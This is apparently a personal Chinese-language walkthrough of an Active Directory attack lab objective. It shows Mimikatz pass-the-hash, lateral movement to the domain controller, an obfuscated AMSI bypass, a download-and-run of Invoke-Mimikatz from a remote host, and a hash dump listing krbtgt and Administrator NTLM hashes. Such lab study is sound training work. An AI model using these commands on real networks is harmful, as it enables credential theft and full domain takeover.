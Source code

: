 ```

已拿到svcadmin的NTML

# Learning Objective 8:
Task
● Dump hashes on the domain controller of dollarcorp.moneycorp.local.
● Using the NTLM hash of krbtgt account, create a Golden ticket.
● Use the Golden ticket to (once again) get domain admin privileges from a machine.


## Dump hashes on the domain controller of dollarcorp.moneycorp.local.

开一个svcadmin权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

查看可以横向的计算机
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Find-LocalAdminAccess
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-std370.dollarcorp.moneycorp.local
dcorp-stdadm.dollarcorp.moneycorp.local
dcorp-std368.dollarcorp.moneycorp.local
dcorp-sql1.dollarcorp.moneycorp.local
dcorp-dc.dollarcorp.moneycorp.local
dcorp-mssql.dollarcorp.moneycorp.local
dcorp-std363.dollarcorp.moneycorp.local
dcorp-std359.dollarcorp.moneycorp.local
dcorp-std367.dollarcorp.moneycorp.local
mcorp-std366.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-std360.dollarcorp.moneycorp.local
dcorp-std364.dollarcorp.moneycorp.local
dcorp-std361.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-std369.dollarcorp.moneycorp.local
```

可以横向到DC：dcorp-dc.dollarcorp.moneycorp.local

横向到dcorp-dc，执行Invoke-Mimikatz导出本地所有哈希，因为是在DC上操作，所以会导出整个域的NTML
```
PS C:\ad> Enter-PSSession dcorp-dc
[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\svcadmin\Documents>
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Ut
i'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}"
 -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLU
E"( ${n`ULl},${t`RuE} )
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

收集到的NTML
```
Administrator：af0686cc0ca8f04df42210c9ac980760
DCORP-DC$ ： 126289c16302fb23b71ec09f0d3d5391
krbtgt ： ff46a9d8bd66c6efd77603da26796f35
